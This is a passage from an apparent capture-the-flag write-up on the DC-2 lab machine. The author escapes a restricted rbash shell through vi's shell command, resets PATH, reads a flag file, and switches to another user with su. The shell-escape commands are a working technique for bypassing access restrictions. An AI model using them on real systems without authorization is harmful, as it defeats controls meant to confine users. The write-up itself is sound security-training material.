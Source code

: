 So it looks like we're only allowed to use those 4 commands from what I can tell.

I take a look at export to see what variables are set and see the following:

```
tom@DC-2:~$ export
declare -x HOME="/home/tom"
declare -x LANG="en_US.UTF-8"
declare -x LOGNAME="tom"
declare -x MAIL="/var/mail/tom"
declare -x OLDPWD
declare -rx PATH="/home/tom/usr/bin"
declare -x PWD="/home/tom"
declare -rx SHELL="/bin/rbash"
declare -x SHLVL="1"
declare -x SSH_CLIENT="192.168.49.118 46804 7744"
declare -x SSH_CONNECTION="192.168.49.118 46804 192.168.118.194 7744"
declare -x SSH_TTY="/dev/pts/0"
declare -x TERM="xterm-256color"
declare -x USER="tom"
tom@DC-2:~$ export SHELL='/bin/bash'
-rbash: SHELL: readonly variable
```

The shell is set to read only so I couldn't modify it that way.

I start up vi to see if I can escape this restricted shell through it:

```
:set shell=/bin/bash
:shell
```

And testing if it worked with the `echo $0` command:

```
tom@DC-2:~$ echo $0
/bin/bash
```

Ok we've escaped that annoying shell but we still can't use many commands due to our path being what it is. I copy the path variable from my local machine and export it:

`export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games`

And testing to see if we can use the `cat` command now:

```
tom@DC-2:~$ cat flag3.txt
Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.
```

I check to see if we can use `sudo -l` and no luck.

The flag3 hint mentions using su to switch over to jerry:

```
tom@DC-2:~$ su jerry
Password: 
jerry@DC-2:/home/tom$
```
